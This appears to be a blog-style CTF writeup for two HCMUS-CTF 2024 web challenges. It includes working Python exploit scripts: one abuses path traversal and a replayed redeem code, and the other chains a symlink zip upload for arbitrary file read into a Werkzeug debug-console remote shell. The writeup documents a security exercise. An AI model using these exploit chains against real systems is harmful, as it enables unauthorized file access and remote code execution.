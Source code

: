 ```yaml
---
title: HCMUS-CTF(Qualification) 2024 Writeup
published: 2025-04-02
description: 'Writeup for HCMUS-CTF 2024'
image: ''
tags: [web, ctf, writeup]
category: 'writeup'
draft: false 
lang: ''
---
```


## Web
### BP Airdrop
**Description**
A free airdrop website for everyone! Come and get your free BP!

**Analyze**
When I read the source code I come across this `let file = __dirname + '/../data/account/' + username + '.json';`
So I think to myself, why the website just let me login with any username and no password? Is that the hint? 

Then I try to path traversal with username = "../logs". Then I don't know what to do next :)). It is kind of a lucky challenge for me. I try to fucking around with the web application and see this weird behaviour:

1. Redeem the code "wqry-pmpo-tzve-mbk3"
2. Go to /api/logs
3. Go to /redeem and redeem the same code again, get extra balance
4. Loop 1000 times to get the flag =))

Then I write the exploit script as fast as I could and don't even look back and understand why because my team is in a rush, maybe in the next day I will look at it again.
**Exploit script**
```
import requests
import time
url1 = "http://chall.blackpinker.com:33415/api/logs"

cookies = {
    "username": "Li4vbG9n",
}

url2 = "http://chall.blackpinker.com:33415/redeem"
data = {
    "airdropCode":"wqry-pmpo-tzve-mbk3"    
}


for i in range(0, 1000):
    responseGet = requests.get(url1, cookies=cookies)
    responsePost = requests.post(url2, cookies=cookies, data=data)
    if(i % 10 == 0):
        time.sleep(1)
```

**Flag**: HCMUS-CTF{5trIct_eqU@l!Ty_!SN't_!T_101193d7181cc883}
Look likes it related to strict equality , hmm ?
### FlashyZ
**Description**
A simple web service which will unzip your files in a flash!

Hint: Flask debug is not good for production

Hint 2: Do you know about symlink?

**Analyze**
The hint has help my team a lot, with the hint my team is able to find 3 links:
1. https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
2. https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload
3. https://github.com/Ruulian/wconsole_extractor

The first link basically said when flask app is in debug mode, we can get RCE but with a condition: a function to read arbitrary file on the server. If that happen, we can use the tool in the 3rd link to automatically exploit the server and get the RCE.

So I try to find way to get the content of arbitary file => Which is the tips in the second link: Upload a zip file that contain symlinks to the target file on the server so when the server unzip it, we can read the content of the symlinks.

In the process of use the tool in 3rd link, I came across some bug that require me to manually edit the source code of the tool, then I realized I have to specify the python and werkzeug version in the tool's source code

```
self.python_version = "3.10.15"
self.werkzeug_version = "3.1.3"
```

Here are the exploit script:
```
import os
import zipfile
import requests
from bs4 import BeautifulSoup
import re

SYMLINK_PATH = "symindex.txt"
ZIP_FILENAME = "test.zip"
UPLOAD_URL = "http://chall.blackpinker.com:33697/upload"  
def upload_file():
    try:
        with open(ZIP_FILENAME, 'rb') as f:
            files = {'file': (ZIP_FILENAME, f)}
            response = requests.post(UPLOAD_URL, files=files)
            # print(response.text)
            soup = BeautifulSoup(response.text, 'html.parser')
            link = soup.find('a', href=True)
            
            if link:
                href = link['href']
                print(f"Full link: {href}")
                
                match = re.search(r'/list/([a-f0-9\-]+)', href)
                if match:
                    uuid = match.group(1)
                    print(f"Extracted UUID: {uuid}")
                    return uuid
                else:
                    print("No UUID found in the link.")
            else:
                print("No link found in the response.")
    except Exception as e:
        print(f"Error uploading file: {e}")
        raise

from main import WConsoleExtractor, info

def leak_function(filename) -> str:
    filename = "../../.." + filename
    print(filename)
    if os.path.exists(SYMLINK_PATH):
        os.remove(SYMLINK_PATH)
    if os.path.exists(ZIP_FILENAME):
        os.remove(ZIP_FILENAME)
    os.system(f"rm symindex.txt; sudo ln -s {filename} symindex.txt")
    os.system(f"sudo zip --symlinks test.zip symindex.txt")
    upload_file()
    uuid = upload_file()
    r = requests.get(f"http://chall.blackpinker.com:33697/view/{uuid}/symindex.txt")
    if r.status_code == 200 and "<!DOCTYPE html>" not in r.text:
        return r.text
    else:
        return ""

# print(leak_function("/etc/machine-id"))
extractor = WConsoleExtractor(
    target="http://chall.blackpinker.com:33697",
    leak_function=leak_function,
)

info(f"PIN CODE: {extractor.pin_code}")
extractor.shell()
        

```

**Flag**: HCMUS-CTF{symply_unzip2rce_23fe1ecf18f7617f}

